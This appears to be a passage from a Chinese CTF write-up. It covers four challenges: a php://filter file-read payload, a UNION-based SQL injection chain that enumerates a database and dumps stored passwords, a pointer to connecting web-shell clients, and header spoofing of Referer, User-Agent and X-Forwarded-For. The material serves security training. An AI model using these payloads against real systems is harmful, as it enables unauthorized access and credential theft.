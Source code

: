 还是经典的伪协议读取，读取`flag.php`，得到`flag`

### payload

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

## LoveSQL

> *2021/07/02*

### 题目

从名字就可以看出来，SQL注入的题，进来是个登录页面，随便输一下，Get请求发送`username`和`password`两个参数，从`password`下手试一下万能密码，竟然登录进去了，看起来是要在库里面找东西，还有回显的`username`和`password`，直接注入，比较简单

### payload

```
?username=1&password=1' union select 1,2,'3

?username=1&password=1' union select 1,database(),'3 // return geek

?username=1&password=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='geek'),'3 //return l0ve1ysq1

?username=1&password=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'),'3 //return id,username,password

?username=1&password=1' union select 1,(select group_concat(password) from l0ve1ysq1),'3 // return flag
```

## Knife

> *2021/07/02*

### 题目

题目没啥好说的，直接**蚁剑/菜刀**连就行了

### payload

## Http

> *2021/07/02*

### 题目

Burp搜索站点，可以发现一个隐藏页面`Secret.php`，访问发现返回`It doesn't come from 'https://www.Sycsecret.com'`，那就添加`Referer`，发现又返回`Please use "Syclover" browser`，改`User-Agent`，发现又返回`No!!! you can only read this locally!!!`，添加`X-Forwarded-For:127.0.0.1`，拿到`flag`
